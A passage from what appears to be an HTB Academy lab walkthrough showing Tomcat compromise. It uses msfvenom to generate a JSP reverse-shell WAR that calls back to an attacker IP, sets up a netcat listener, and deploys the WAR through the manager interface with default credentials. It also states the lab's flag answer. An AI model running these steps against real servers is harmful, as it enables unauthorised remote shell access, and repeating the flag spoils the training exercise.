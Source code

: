 #### Step 4: Alternative Method - Msfvenom Reverse Shell (HTB Academy Preferred)
```bash
# Generate reverse shell WAR payload with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.10.14.6 \
  LPORT=9001 \
  -f war \
  -o backup.war

# Expected output:
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: backup.war

# Setup netcat listener for reverse shell
nc -nvlp 9001

# Expected listener output:
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

#### Step 5: WAR Deployment and Shell Establishment
```bash
# Manager interface deployment process:
# 1. Navigate to http://web01.inlanefreight.local:8180/manager/html
# 2. Login with credentials: tomcat:root (or tomcat:admin)
# 3. Scroll to "WAR file to upload" section
# 4. Click "Browse" and select backup.war
# 5. Click "Deploy" to upload application
# 6. Click on deployed application link to trigger reverse shell

# Expected reverse shell connection:
Ncat: Connection from 10.129.201.58.
Ncat: Connection from 10.129.201.58:38618.

whoami
tomcat
```

#### Step 6: Flag Discovery and Extraction
```bash
# Flag location (HTB Academy specific):
cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt

# HTB Academy Flag Content:
t0mcat_rc3_ftw!

# HTB Answer: t0mcat_rc3_ftw!
```
